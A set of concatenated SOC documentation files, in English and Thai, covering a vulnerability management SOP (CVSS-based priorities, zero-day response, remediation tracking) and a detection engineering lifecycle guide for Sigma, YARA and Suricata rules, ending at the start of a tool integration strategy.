|:---:|:---|:---:|:---:|
| 9.0–10.0 | 🔴 Critical | **P1** | 24 hours |
| 7.0–8.9 | 🟠 High | **P2** | 7 days |
| 4.0–6.9 | 🟡 Medium | **P3** | 30 days |
| 0.1–3.9 | 🟢 Low | **P4** | 90 days |
| 0.0 | ⬜ Informational | **P5** | Best effort |

### Contextual Risk Adjustments

| Factor | Adjustment | Example |
|:---|:---:|:---|
| **Internet-facing asset** | +1 Priority | CVSS 7.5 High → P1 |
| **Contains PII / payment data** | +1 Priority | CVSS 5.0 Med → P2 |
| **Active exploitation (CISA KEV)** | → P1 regardless | Any CVE in KEV list |
| **Compensating control in place** | −1 Priority | WAF blocking exploit |
| **Isolated network** | −1 Priority | Air-gapped system |
| **End-of-life system** | +1 Priority | Unpatched, no vendor support |

### Priority Decision Matrix

```mermaid
flowchart TD
    A[New Vulnerability] --> B{In CISA KEV?}
    B -->|Yes| C[🔴 P1 — 24hr SLA]
    B -->|No| D{CVSS Score?}
    
    D -->|9.0+| E{Internet-facing?}
    E -->|Yes| C
    E -->|No| F[🟠 P2 — 7 day SLA]
    
    D -->|7.0-8.9| G{Contains sensitive data?}
    G -->|Yes| F
    G -->|No| H{Compensating control?}
    H -->|Yes| I[🟡 P3 — 30 day SLA]
    H -->|No| F
    
    D -->|4.0-6.9| I
    D -->|< 4.0| J[🟢 P4 — 90 day SLA]

    style C fill:#dc2626,color:#fff
    style F fill:#f97316,color:#fff
    style I fill:#eab308,color:#000
    style J fill:#22c55e,color:#fff
```

---

## SOC Role in Vulnerability Management

### What SOC Does

| Activity | Description | Frequency |
|:---|:---|:---:|
| **Monitor for zero-days** | Track advisories, CISA KEV, vendor bulletins | Daily |
| **Correlate vulns with threats** | Match CVEs to active threat campaigns | Per advisory |
| **Validate exploitability** | Test if vulnerability is exploitable in our env | Per P1/P2 |
| **Track remediation** | Monitor patching progress vs SLA | Weekly |
| **Verify remediation** | Re-scan after patch to confirm fix | Per remediation |
| **Detect exploitation** | SIEM rules for known exploit patterns | Continuous |
| **Report metrics** | Vulnerability posture to management | Monthly |

### What SOC Does NOT Do

| Activity | Responsible Team |
|:---|:---|
| Apply patches | IT Operations / System Admins |
| Deploy WAF rules | Network Security |
| Fix application code | Development teams |
| Manage VM scanner infrastructure | Vulnerability Management team |

---

## Zero-Day Response Procedure

```mermaid
flowchart TD
    A[Zero-Day Announced] --> B[SOC assesses exposure]
    B --> C{Are we affected?}
    
    C -->|No| D[Document, close]
    C -->|Unknown| E[Run asset scan]
    C -->|Yes| F[🔴 Declare P1 Vulnerability]
    
    E --> C
    
    F --> G[Notify CISO + IT Ops]
    F --> H[Create detection rules]
    F --> I[Assess compensating controls]
    
    G --> J[Emergency patch / mitigate]
    H --> K[Monitor for exploitation]
    I --> J
    
    J --> L[Verify fix]
    K --> L
    L --> M[Post-incident review]

    style F fill:#dc2626,color:#fff
    style J fill:#22c55e,color:#fff
```

### Zero-Day Checklist

- [ ] Advisory received and reviewed
- [ ] Affected asset inventory completed
- [ ] Impact assessment documented
- [ ] CISO notified (if P1)
- [ ] Detection rules deployed
- [ ] Compensating controls assessed/applied
- [ ] Emergency patching initiated
- [ ] Exploitation monitoring active
- [ ] Re-scan completed post-patch
- [ ] Stakeholders updated

---

## Remediation Tracking

### Remediation Ticket Template

| Field | Value |
|:---|:---|
| **CVE ID** | CVE-____-_____ |
| **CVSS Score** | ___._ |
| **SOC Priority** | P_ |
| **Affected Assets** | ______________ (count: ___) |
| **Asset Criticality** | Critical / High / Medium / Low |
| **SLA Deadline** | ____-__-__ |
| **Current Status** | Open / In Progress / Patched / Verified / Closed |
| **Assigned To** | ______________ (team) |
| **Compensating Control** | ______________ (if any) |
| **Verification Scan Date** | ____-__-__ |
| **Verified Fixed** | ⬜ Yes / ⬜ No |

### SLA Tracking Dashboard

| Priority | Total Open | Within SLA | Overdue | % Compliant |
|:---:|:---:|:---:|:---:|:---:|
| 🔴 P1 | _____ | _____ | _____ | ___% |
| 🟠 P2 | _____ | _____ | _____ | ___% |
| 🟡 P3 | _____ | _____ | _____ | ___% |
| 🟢 P4 | _____ | _____ | _____ | ___% |
| **Total** | **_____** | **_____** | **_____** | **___%** |

### Exception/Risk Acceptance Process

| Step | Owner | Output |
|:---:|:---|:---|
| 1 | Asset owner requests exception | Exception request form |
| 2 | SOC validates risk and compensating controls | Risk assessment |
| 3 | Risk Manager reviews | Risk acceptance recommendation |
| 4 | CISO approves (P1/P2) or Security Manager (P3/P4) | Signed acceptance |
| 5 | SOC adds to exception tracker | Tracked with review date |
| 6 | Re-review at expiration (max 90 days) | Renewed or remediated |

---

## Detection Rules for Known Exploits

| CVE Category | Detection Approach | Source |
|:---|:---|:---|
| **Web exploits** | WAF signatures + SIEM correlation | WAF logs + IDS |
| **RCE exploits** | Process execution anomalies post-exploit | EDR + Sysmon |
| **Privilege escalation** | Unexpected privilege changes | Windows Event logs |
| **Credential theft** | Post-exploitation lateral movement | EDR + AD logs |
| **Supply chain** | Unexpected outbound connections from updated software | Proxy + DNS |

### Threat Intel Integration

```
[Vendor Advisory] → [CVE Published] → [SOC Reviews]
                                            ↓
[CISA KEV Update] → [Auto-priority P1] → [SOC Deploys Detection]
                                            ↓
[Exploit-DB / PoC] → [SOC Validates] → [Update Detection Rules]
```

---

## Metrics

| Metric | Target | Measurement |
|:---|:---:|:---|
| P1 remediation within SLA | ≥ 95% | Ticket tracking |
| P2 remediation within SLA | ≥ 90% | Ticket tracking |
| Mean time to remediate (P1) | < 24 hours | Ticket timestamps |
| Mean time to remediate (P2) | < 7 days | Ticket timestamps |
| Scan coverage (assets scanned / total) | ≥ 95% | VM tool reports |
| Re-scan compliance (verified post-patch) | ≥ 90% | Re-scan reports |
| Open P1/P2 vulnerabilities (current) | 0 beyond SLA | Dashboard |
| Exception count (active) | < 10 | Exception tracker |
| Detection rule coverage for KEV | 100% | Detection audit |

---

## Related Documents

-   [Threat Landscape Report](Threat_Landscape_Report.en.md) — CVE tracking
-   [Log Source Matrix](Log_Source_Matrix.en.md) — Scan data sources
-   [Cloud Security Monitoring](Cloud_Security_Monitoring.en.md) — Cloud vulns
-   [SOC Automation Catalog](SOC_Automation_Catalog.en.md) — Auto-scan automation
-   [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.en.md) — Zero-day escalation
-   [KPI Dashboard Template](KPI_Dashboard_Template.en.md) — Vuln reporting


---

## File: 06_Operations_Management/Vulnerability_Management.th.md

# Vulnerability Management SOP / SOP การจัดการช่องโหว่

**รหัสเอกสาร**: OPS-SOP-020
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ใช้ภายใน
**อัปเดตล่าสุด**: 2026-02-15

> ขั้นตอน SOC สำหรับ **สแกนช่องโหว่, จัดลำดับ, ติดตาม, และตรวจสอบการแก้ไข** ประสานกับทีม patching, IT operations, และ risk management

---

## วงจร Vulnerability Management

```mermaid
graph LR
    A[1. ค้นหา] --> B[2. ประเมิน]
    B --> C[3. จัดลำดับ]
    C --> D[4. แก้ไข]
    D --> E[5. ตรวจสอบ]
    E --> F[6. รายงาน]
    F --> A

    style A fill:#3b82f6,color:#fff
    style C fill:#f97316,color:#fff
    style E fill:#22c55e,color:#fff
```

---

## ตาราง Scan

| ประเภท Scan | ขอบเขต | ความถี่ | เครื่องมือ |
|:---|:---|:---:|:---|
| **Network vulnerability** | ทุก IP range | รายสัปดาห์ | Nessus / Qualys / OpenVAS |
| **Web application** | ทุก web app | รายเดือน | Burp Suite / OWASP ZAP |
| **Cloud posture** | AWS / Azure / GCP | รายวัน | CSPM tool |
| **Container images** | CI/CD pipeline | ทุก build | Trivy / Grype |
| **Configuration audit** | Servers, endpoints | รายเดือน | CIS Benchmarks |
| **AD/Identity** | Active Directory | รายเดือน | PingCastle / BloodHound |
| **External attack surface** | Public-facing assets | รายสัปดาห์ | EASM tool |

---

## การจำแนก Severity

### CVSS → SOC Priority

| CVSS | Severity | Priority | SLA แก้ไข |
|:---:|:---|:---:|:---:|
| 9.0–10.0 | 🔴 Critical | **P1** | 24 ชม. |
| 7.0–8.9 | 🟠 High | **P2** | 7 วัน |
| 4.0–6.9 | 🟡 Medium | **P3** | 30 วัน |
| 0.1–3.9 | 🟢 Low | **P4** | 90 วัน |

### การปรับตามบริบท

| ปัจจัย | การปรับ | ตัวอย่าง |
|:---|:---:|:---|
| **Internet-facing** | +1 Priority | CVSS 7.5 High → P1 |
| **มี PII / payment data** | +1 Priority | CVSS 5.0 Med → P2 |
| **อยู่ใน CISA KEV** | → P1 เสมอ | ทุก CVE ใน KEV list |
| **มี compensating control** | −1 Priority | WAF บล็อก exploit |
| **เครือข่ายแยก** | −1 Priority | Air-gapped system |

---

## ขั้นตอนตอบสนอง Zero-Day

```mermaid
flowchart TD
    A[Zero-Day ประกาศ] --> B[SOC ประเมินผลกระทบ]
    B --> C{ได้รับผลกระทบ?}
    C -->|ไม่| D[บันทึก, ปิด]
    C -->|ไม่แน่ใจ| E[สแกน asset]
    C -->|ใช่| F[🔴 ประกาศ P1]
    E --> C
    F --> G[แจ้ง CISO + IT]
    F --> H[สร้าง detection rules]
    G --> I[Emergency patch]
    H --> J[เฝ้าระวังการโจมตี]
    I --> K[ตรวจสอบการแก้ไข]
    J --> K

    style F fill:#dc2626,color:#fff
    style I fill:#22c55e,color:#fff
```

### Checklist Zero-Day

- [ ] ได้รับและทบทวน advisory
- [ ] สำรวจ asset ที่ได้รับผลกระทบ
- [ ] ประเมินผลกระทบ
- [ ] แจ้ง CISO (ถ้า P1)
- [ ] Deploy detection rules
- [ ] ประเมิน/ใช้ compensating controls
- [ ] เริ่ม emergency patching
- [ ] เปิด exploitation monitoring
- [ ] สแกนซ้ำหลัง patch
- [ ] อัปเดต stakeholders

---

## การติดตามการแก้ไข

### SLA Tracking Dashboard

| Priority | เปิดอยู่ | ตาม SLA | เลย SLA | % Compliant |
|:---:|:---:|:---:|:---:|:---:|
| 🔴 P1 | _____ | _____ | _____ | ___% |
| 🟠 P2 | _____ | _____ | _____ | ___% |
| 🟡 P3 | _____ | _____ | _____ | ___% |
| 🟢 P4 | _____ | _____ | _____ | ___% |

### กระบวนการ Exception / Risk Acceptance

| ขั้น | ผู้รับผิดชอบ | ผลลัพธ์ |
|:---:|:---|:---|
| 1 | เจ้าของ asset ขอ exception | แบบฟอร์ม exception |
| 2 | SOC ประเมินความเสี่ยงและ compensating controls | การประเมินความเสี่ยง |
| 3 | Risk Manager ทบทวน | คำแนะนำ |
| 4 | CISO อนุมัติ (P1/P2) หรือ Security Manager (P3/P4) | ลงนาม |
| 5 | SOC เพิ่มใน exception tracker | ติดตามพร้อมวันทบทวน |
| 6 | ทบทวนเมื่อหมดอายุ (สูงสุด 90 วัน) | ต่อหรือแก้ไข |

---

## ตัวชี้วัด

| ตัวชี้วัด | เป้าหมาย |
|:---|:---:|
| แก้ไข P1 ตาม SLA | ≥ 95% |
| แก้ไข P2 ตาม SLA | ≥ 90% |
| เวลาเฉลี่ยแก้ไข P1 | < 24 ชม. |
| เวลาเฉลี่ยแก้ไข P2 | < 7 วัน |
| Scan coverage | ≥ 95% |
| ตรวจสอบหลัง patch | ≥ 90% |
| P1/P2 เปิดเกิน SLA | 0 |
| Detection rule coverage สำหรับ KEV | 100% |

---

## Vulnerability Prioritization Framework

### CVSS + Context-Based Scoring

| ปัจจัย | น้ำหนัก | คำอธิบาย |
|:---|:---:|:---|
| **CVSS Score** | 30% | Base score จาก NVD |
| **Exploitability** | 25% | มี public exploit หรือไม่ |
| **Asset Criticality** | 25% | ระบบนี้สำคัญแค่ไหน |
| **Exposure** | 20% | Internet-facing หรือ internal |

### ตาราง Priority Matrix

| | CVSS 9-10 | CVSS 7-8.9 | CVSS 4-6.9 | CVSS 0-3.9 |
|:---|:---:|:---:|:---:|:---:|
| **Internet-facing + Critical** | 🔴 P1 (24h) | 🔴 P1 (48h) | 🟡 P2 (7d) | 🟢 P3 (30d) |
| **Internet-facing + Non-critical** | 🔴 P1 (48h) | 🟡 P2 (7d) | 🟡 P2 (14d) | 🟢 P3 (30d) |
| **Internal + Critical** | 🟡 P2 (7d) | 🟡 P2 (14d) | 🟢 P3 (30d) | ⚪ P4 (90d) |
| **Internal + Non-critical** | 🟡 P2 (14d) | 🟢 P3 (30d) | ⚪ P4 (90d) | ⚪ P4 (Next cycle) |

## Patch Management Workflow

```mermaid
graph TD
    Scan["🔍 สแกน Vulnerability"] --> Prioritize["📊 จัดลำดับ"]
    Prioritize --> Plan["📝 วางแผน Patch"]
    Plan --> Test["🧪 ทดสอบใน Staging"]
    Test --> Approve["✅ ขออนุมัติ Change"]
    Approve --> Deploy["🚀 Deploy Patch"]
    Deploy --> Verify["✔️ Verify Fix"]
    Verify --> Document["📄 บันทึก"]
```

## Vulnerability Management KPIs

| ตัวชี้วัด | เป้าหมาย | ปัจจุบัน |
|:---|:---|:---|
| เวลาแก้ไข Critical vuln | ≤ 24 ชม. | [XX] ชม. |
| เวลาแก้ไข High vuln | ≤ 7 วัน | [XX] วัน |
| เวลาแก้ไข Medium vuln | ≤ 30 วัน | [XX] วัน |
| Scan Coverage | ≥ 95% ของ assets | [XX]% |
| Recurring Vulnerability Rate | < 5% | [XX]% |

## Exception Management

| รายการ | เนื้อหา |
|:---|:---|
| **Exception ID** | VULN-EXC-YYYY-NNN |
| **Vulnerability** | CVE-YYYY-NNNNN |
| **ระบบที่ได้รับผลกระทบ** | [ระบุ] |
| **เหตุผลที่ไม่ patch** | [ระบุ — incompatibility / vendor pending] |
| **Compensating Controls** | [ระบุ — WAF rule / network segmentation] |
| **Risk Owner** | [ชื่อ + ตำแหน่ง] |
| **วันหมดอายุ Exception** | [วันที่] |
| **Review Date** | [วันที่ — ภายใน 30 วัน] |

## Vulnerability Remediation SLA

### SLA by CVSS Score

| CVSS Score | Severity | Patch SLA | Verify SLA |
|:---|:---|:---|:---|
| 9.0-10.0 | Critical | 24 ชั่วโมง | 48 ชั่วโมง |
| 7.0-8.9 | High | 7 วัน | 14 วัน |
| 4.0-6.9 | Medium | 30 วัน | 45 วัน |
| 0.1-3.9 | Low | 90 วัน | 120 วัน |

### Exception Process

| ขั้นตอน | ผู้ดำเนินการ | Timeline |
|:---|:---|:---|
| ขอ exception | System owner | ก่อน SLA หมด |
| Review risk | Security team | 2 วันทำการ |
| อนุมัติ/ปฏิเสธ | CISO | 1 วันทำการ |
| Compensating controls | System owner | 5 วันทำการ |
| Re-assess | Security team | ทุก 30 วัน |

### Vulnerability Scanning Schedule

| Scan Type | Scope | Frequency | Owner |
|:---|:---|:---|:---|
| External | Internet-facing | Weekly | Security Team |
| Internal | All servers | Monthly | IT + Security |
| Web App | OWASP Top 10 | Monthly | AppSec |
| Container | Docker images | Per build | DevOps |
| Cloud | AWS/Azure config | Daily | Cloud Team |

### Scan Coverage Dashboard

| Scope | Assets | Scanned | Coverage |
|:---|:---|:---|:---|
| External | 150 | 148 | 99% |
| Internal | 500 | 465 | 93% |
| Cloud | 200 | 190 | 95% |

### Patch Priority Quick Guide

| CVSS | Exploitable? | Action |
|:---|:---|:---|
| 9+ | Yes | Emergency patch |
| 9+ | No | 24 hr patch |
| 7-8.9 | Yes | 72 hr patch |
| 7-8.9 | No | 7 day patch |

## เอกสารที่เกี่ยวข้อง

-   [Threat Landscape Report](Threat_Landscape_Report.en.md) — การติดตาม CVE
-   [Log Source Matrix](Log_Source_Matrix.en.md) — แหล่งข้อมูล scan
-   [Cloud Security Monitoring](Cloud_Security_Monitoring.en.md) — Cloud vulns
-   [SOC Automation Catalog](SOC_Automation_Catalog.en.md) — Auto-scan
-   [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.en.md) — Zero-day escalation


---

## File: 03_User_Guides/Content_Management.en.md

# Detection Engineering Lifecycle

This document defines the end-to-end lifecycle for creating, maintaining, tuning, and retiring detection rules within the SOC. Detection engineering transforms threat intelligence into actionable alerts.

---

## Lifecycle Overview

```mermaid
graph TD
    Req["📋 1. Requirement & Research"] --> Dev["⚙️ 2. Development"]
    Dev --> Test["🧪 3. Testing & Tuning"]
    Test --> Deploy["🚀 4. Deployment"]
    Deploy --> Monitor["📊 5. Monitoring"]
    Monitor --> Review["🔄 6. Review / Retire"]
    Review --> Req
```

---

## 1. Requirement & Research

| Input | Action | Output |
|:---|:---|:---|
| Threat Intel reports | Analyze TTPs, IoCs, CVEs | Rule requirements doc |
| MITRE ATT&CK gaps | Map coverage heatmap | Prioritized technique list |
| Incident post-mortems | Extract detection gaps | Improvement tickets |
| Business context | Identify critical assets and data | Risk-weighted priorities |
| Regulatory requirements | Map PDPA/ISO 27001 controls | Compliance detection needs |

### Prioritization

| Priority | Criteria | Examples |
|:---:|:---|:---|
| **P1 — Critical** | Active exploitation, critical asset risk | Zero-day CVE, ransomware variant |
| **P2 — High** | Mapped to adversary TTPs targeting our sector | Credential theft, lateral movement |
| **P3 — Medium** | Coverage gap in ATT&CK matrix | Discovery techniques, collection |
| **P4 — Low** | Nice-to-have, low-risk scenarios | Shadow IT, policy violations |

---

## 2. Development

### Rule Format Standards

| Format | Use Case | Repository Path |
|:---|:---|:---|
| **Sigma** | SIEM-agnostic detection (primary format) | `08_Detection_Engineering/sigma_rules/` |
| **YARA** | File/binary analysis | `08_Detection_Engineering/sigma_rules/yara/` |
| **Snort/Suricata** | Network-level detection | `08_Detection_Engineering/sigma_rules/ids/` |

### Required Metadata

Every rule must include:

```yaml
title: Descriptive Rule Name
id: UUID (uuidgen)
status: experimental | test | stable | deprecated
level: informational | low | medium | high | critical
description: What this rule detects and why
author: Author Name
date: YYYY/MM/DD
modified: YYYY/MM/DD
references:
  - URL to threat intel or advisory
tags:
  - attack.tactic_name
  - attack.technique_id
logsource:
  category: process_creation | network_connection | ...
  product: windows | linux | ...
detection:
  selection:
    FieldName|modifier: value
  condition: selection
falsepositives:
  - Known benign scenarios
```

### Naming Convention

```
{platform}_{category}_{description}.yml

Examples:
  win_proc_mimikatz_execution.yml
  cloud_aws_s3_public_access.yml
  net_dns_tunneling.yml
```

---

## 3. Testing & Tuning

### Testing Checklist

| # | Step | Method | Pass Criteria |
|:---:|:---|:---|:---|
| 1 | **Syntax validation** | `sigmac --check` or CI validator | No syntax errors |
| 2 | **Historical data** | Run against 30-day log archive | Expected alerts fire |
| 3 | **Attack simulation** | Atomic Red Team / manual emulation | Alert triggers within 5 min |
| 4 | **False positive check** | Monitor for 7 days in "experimental" mode | FPR < 10% |
| 5 | **Performance** | Check SIEM query execution time | < 30 seconds |
| 6 | **Peer review** | Code review by second engineer | Approved |

### Tuning Actions

| FPR Range | Action | Timeline |
|:---:|:---|:---|
| **< 5%** | Promote to **stable** | Immediate |
| **5–15%** | Add whitelist/exceptions, re-test | 1 week |
| **15–30%** | Redesign logic, narrow scope | 2 weeks |
| **> 30%** | Deprecate or fundamentally rework | Immediate |

---

## 4. Deployment

### Promotion Path

```
experimental → test → stable → deprecated
```

| Stage | Environment | Duration | Approval |
|:---|:---|:---|:---|
| **Experimental** | Dev/Lab SIEM | Until initial testing passes | Detection Engineer |
| **Test** | Production (silent mode / low priority) | 7 days minimum | SOC Lead |
| **Stable** | Production (full alerting) | Ongoing | SOC Lead + peer review |
| **Deprecated** | Removed from active detection | N/A | SOC Lead + RFC |

### Deployment Process

1. Submit rule via [Change Request (RFC)](../11_Reporting_Templates/change_request_rfc.en.md)
2. Deploy to staging SIEM
3. Validate against test cases
4. Promote to production
5. Update [Detection Rules Index](../08_Detection_Engineering/README.md)

---

## 5. Monitoring

### Key Metrics Per Rule

| Metric | Target | Alert If |
|:---|:---|:---|
| **Alert Volume** | Baseline ± 20% | Sudden spike or drop |
| **True Positive Rate** | ≥ 90% | < 70% |
| **Mean Triage Time** | < 10 min | > 30 min |
| **Analyst Feedback** | Positive/Neutral | ≥ 3 negative ratings |
| **Query Time** | < 30 sec | > 60 sec (performance issue) |

---

## 6. Review & Deprecation

### Quarterly Audit Checklist

| # | Check | Action if Failed |
|:---:|:---|:---|
| 1 | Does the rule still map to an active threat? | Consider deprecation |
| 2 | Is FPR still within acceptable range? | Tune or retire |
| 3 | Has the log source changed format/schema? | Update parser |
| 4 | Are there duplicate or overlapping rules? | Consolidate |
| 5 | Is the rule's MITRE mapping still accurate? | Update tags |
| 6 | Has the rule been triggered in past 90 days? | If not, evaluate relevance |

### Deprecation Process

1. Set status to `deprecated` in rule file
2. Disable rule in SIEM (do not delete — archive)
3. Update Detection Rules Index
4. Document reason in rule changelog

---

## Related Documents

- [Integration Hub](Integration_Hub.en.md)
- [IR Framework](../05_Incident_Response/Framework.en.md)
- [Detection Rules Index](../08_Detection_Engineering/README.md)
- [Alert Tuning SOP](../06_Operations_Management/Alert_Tuning.en.md)
- [Detection Rule Testing](../06_Operations_Management/Detection_Rule_Testing.en.md)
- [Atomic Test Map](../09_Simulation_Testing/Atomic_Test_Map.en.md)

## References

- [Detection Engineering Weekly](https://detectionengineering.net/)
- [MITRE ATT&CK](https://attack.mitre.org/)
- [Sigma Rule Specification](https://github.com/SigmaHQ/sigma-specification)
- [Palantir Detection Engineering Guide](https://blog.palantir.com/alerting-and-detection-strategy-framework-52dc33722df2)


---

## File: 03_User_Guides/Content_Management.th.md

# วงจรชีวิตวิศวกรรมการตรวจจับ (Detection Engineering Lifecycle)

เอกสารนี้กำหนดวงจรชีวิตตั้งแต่การสร้าง ดูแลรักษา ปรับจูน และยกเลิกกฎการตรวจจับภายใน SOC

---

## ภาพรวมวงจรชีวิต

```mermaid
graph TD
    Req["📋 1. ความต้องการ"] --> Dev["⚙️ 2. พัฒนา"]
    Dev --> Test["🧪 3. ทดสอบ/จูน"]
    Test --> Deploy["🚀 4. ติดตั้ง"]
    Deploy --> Monitor["📊 5. เฝ้าระวัง"]
    Monitor --> Review["🔄 6. ทบทวน/ยกเลิก"]
    Review --> Req
```

---

## 1. ความต้องการและการวิจัย

| อินพุต | การดำเนินการ | ผลลัพธ์ |
|:---|:---|:---|
| รายงาน Threat Intel | วิเคราะห์ TTPs, IoCs, CVEs | เอกสารความต้องการกฎ |
| MITRE ATT&CK gaps | สร้าง coverage heatmap | รายการ technique ที่ต้องทำ |
| Post-mortem จากเหตุการณ์ | สกัด detection gaps | ตั๋วปรับปรุง |
| บริบทธุรกิจ | ระบุสินทรัพย์สำคัญ | ลำดับความสำคัญตามความเสี่ยง |

### ลำดับความสำคัญ

| ลำดับ | เกณฑ์ | ตัวอย่าง |
|:---:|:---|:---|
| **P1** | ถูกโจมตีอยู่, เสี่ยงต่อสินทรัพย์สำคัญ | Zero-day, ransomware ใหม่ |
| **P2** | ตรงกับ TTP ที่โจมตีอุตสาหกรรมเรา | Credential theft, lateral movement |
| **P3** | ช่องว่างใน ATT&CK matrix | Discovery, Collection |
| **P4** | ดีถ้ามี, ความเสี่ยงต่ำ | Shadow IT, policy violation |

---

## 2. การพัฒนา

### มาตรฐานรูปแบบกฎ

| รูปแบบ | กรณีใช้งาน | ที่เก็บ |
|:---|:---|:---|
| **Sigma** | Detection ใน SIEM (รูปแบบหลัก) | `08_Detection_Engineering/sigma_rules/` |
| **YARA** | วิเคราะห์ไฟล์/binary | `08_Detection_Engineering/sigma_rules/yara/` |
| **Snort/Suricata** | Detection ระดับเครือข่าย | `08_Detection_Engineering/sigma_rules/ids/` |

### Metadata ที่ต้องมี

```yaml
title: ชื่อกฎที่อธิบายได้ชัดเจน
id: UUID
status: experimental | test | stable | deprecated
level: low | medium | high | critical
author: ชื่อผู้เขียน
date: YYYY/MM/DD
tags:
  - attack.tactic_name
  - attack.technique_id
```

---

## 3. ทดสอบและปรับแต่ง

| # | ขั้นตอน | วิธี | เกณฑ์ผ่าน |
|:---:|:---|:---|:---|
| 1 | ตรวจ syntax | CI validator | ไม่มี error |
| 2 | ข้อมูลย้อนหลัง | รัน 30 วันย้อนหลัง | Alert ตรงตามที่คาด |
| 3 | จำลองการโจมตี | Atomic Red Team | Alert ภายใน 5 นาที |
| 4 | ตรวจ False Positive | เฝ้า 7 วันในโหมด experimental | FPR < 10% |
| 5 | Peer review | Code review โดยวิศวกรอีกคน | อนุมัติ |

### การจัดการ FPR

| ช่วง FPR | การดำเนินการ | กรอบเวลา |
|:---:|:---|:---|
| < 5% | เลื่อนเป็น **stable** | ทันที |
| 5–15% | เพิ่ม whitelist, ทดสอบซ้ำ | 1 สัปดาห์ |
| 15–30% | ออกแบบ logic ใหม่ | 2 สัปดาห์ |
| > 30% | ยกเลิกหรือเขียนใหม่ | ทันที |

---

## 4. การติดตั้ง

### เส้นทางเลื่อนขั้น

| ขั้น | สภาพแวดล้อม | ระยะเวลา | อนุมัติโดย |
|:---|:---|:---|:---|
| **Experimental** | Dev/Lab SIEM | จนผ่านทดสอบ | Detection Engineer |
| **Test** | Production (silent mode) | ≥ 7 วัน | SOC Lead |
| **Stable** | Production (แจ้งเตือนเต็มรูปแบบ) | ต่อเนื่อง | SOC Lead + peer |
| **Deprecated** | ยกเลิกจาก detection | - | SOC Lead + RFC |

---

## 5. เฝ้าระวัง

| ตัวชี้วัด | เป้าหมาย | แจ้งเตือนเมื่อ |
|:---|:---|:---|
| ปริมาณ Alert | Baseline ± 20% | พุ่งสูงหรือลดลงมาก |
| True Positive Rate | ≥ 90% | < 70% |
| เวลาคัดกรองเฉลี่ย | < 10 นาที | > 30 นาที |

---

## 6. ทบทวนและยกเลิก

### ตรวจสอบรายไตรมาส

| # | ตรวจสอบ | การแก้ไข |
|:---:|:---|:---|
| 1 | กฎยังตรงกับภัยคุกคามที่ใช้งานอยู่? | พิจารณายกเลิก |
| 2 | FPR ยังอยู่ในเกณฑ์? | ปรับจูนหรือยกเลิก |
| 3 | Log source เปลี่ยน format? | อัปเดต parser |
| 4 | มีกฎซ้ำซ้อน? | รวมกฎ |
| 5 | กฎ trigger ภายใน 90 วันที่ผ่านมา? | ประเมินความเกี่ยวข้อง |

---

## Content Lifecycle

```mermaid
graph LR
    Create["📝 สร้าง"] --> Review["👀 ทบทวน"]
    Review --> Approve["✅ อนุมัติ"]
    Approve --> Deploy["🚀 Deploy"]
    Deploy --> Monitor["📊 ติดตาม"]
    Monitor --> Update["🔄 อัปเดต"]
    Update --> Review
    Monitor --> Retire["🗑️ เลิกใช้"]
```

## Content Inventory Template

| Content ID | ประเภท | ชื่อ | เวอร์ชัน | Owner | Last Review | Status |
|:---|:---|:---|:---:|:---|:---:|:---:|
| SIG-001 | Sigma Rule | Suspicious PowerShell | 1.2 | DetEng | 2026-01 | Active |
| PB-001 | Playbook | Phishing Response | 2.1 | SOC Lead | 2026-01 | Active |
| YAR-001 | YARA Rule | Ransomware Family X | 1.0 | Malware Analyst | 2025-12 | Active |

## Content Quality Metrics

| ตัวชี้วัด | เป้าหมาย | ปัจจุบัน |
|:---|:---|:---|
| Detection rules with owner assigned | 100% | [XX]% |
| Rules reviewed in last 6 months | ≥ 80% | [XX]% |
| Rules with MITRE mapping | ≥ 90% | [XX]% |
| Playbooks with Mermaid diagrams | ≥ 90% | [XX]% |
| Average FP rate across all rules | < 10% | [XX]% |

## เอกสารที่เกี่ยวข้อง

- [ศูนย์รวมการเชื่อมต่อ](Integration_Hub.th.md)
- [กรอบ IR](../05_Incident_Response/Framework.th.md)
- [SOP ปรับจูน Alert](../06_Operations_Management/Alert_Tuning.th.md)
- [Atomic Test Map](../09_Simulation_Testing/Atomic_Test_Map.th.md)

### Content Lifecycle Management

| Phase | Activity | Owner | Frequency |
|:---|:---|:---|:---|
| Create | สร้าง rule/playbook | Engineer | As needed |
| Review | Peer review + test | Senior Analyst | Per change |
| Approve | Quality gate | SOC Manager | Per change |
| Deploy | Push to production | Engineer | Post-approval |
| Monitor | Track FP/TP rates | Analyst | Weekly |
| Retire | Archive outdated | Engineer | Quarterly |

### Content Quality Checklist
- [ ] มี MITRE ATT&CK mapping
- [ ] ทดสอบใน staging แล้ว
- [ ] มี expected output/alert sample
- [ ] Documentation ครบถ้วน
- [ ] False positive rate < 10%

### Content Types Summary

| Type | Format | Owner |
|:---|:---|:---|
| Detection rules | YAML/SPL | Engineer |
| Playbooks | Markdown | Analyst |
| Dashboards | JSON | Engineer |
| Reports | Template | Manager |

## อ้างอิง

- [Detection Engineering Weekly](https://detectionengineering.net/)
- [MITRE ATT&CK](https://attack.mitre.org/)
- [Sigma Rule Specification](https://github.com/SigmaHQ/sigma-specification)


---

## File: 03_User_Guides/Integration_Hub.en.md

# Tool Integration Strategy

This document outlines the strategy for integrating security tools and log sources into the SOC architecture. A well-integrated tool stack reduces blind spots, accelerates detection, and enables automated response.

---

## Integration Architecture

```mermaid
graph LR
    Source["🔌 Log Sources"] -->|Transport| Collect["📥 Collection Layer"]
    Collect -->|Normalize| Normalize["⚙️ Normalization"]
    Normalize -->|Enrich| Enrich["🧠 Enrichment"]
    Enrich -->|Store| SIEM["💾 SIEM / Data Lake"]
    SIEM -->|Detect| Rules["🔍 Detection Rules"]
    Rules -->|Alert| Alert["🚨 Alert Queue"]
    Alert -->|Respond| SOAR["🤖 SOAR / Automation"]
    SOAR -->|Act| Response["🛡️ Response Actions"]
```

---

## 1. Log Source Integration

### 1.1 Transport Mechanisms

| Transport | Best For | Protocol | Agents |
|:---|:---|:---|:---|
| **API Polling** | Cloud services (AWS, M365, SaaS) | REST/GraphQL | Native collectors |
| **Agent-based** | Servers, endpoints | Syslog, custom | Filebeat, Winlogbeat, OSQuery, Fluent Bit |
| **Syslog** | Network devices, firewalls, legacy | UDP/TCP 514, TLS 6514 | rsyslog, syslog-ng |
| **Webhook** | SaaS alerts, custom apps | HTTPS | N/A (push-based) |
| **SNMP Trap** | Network monitoring, UPS, printers | UDP 162 | SNMP manager |
| **Database Query** | Internal apps, CMDB | JDBC/ODBC | Custom scripts |

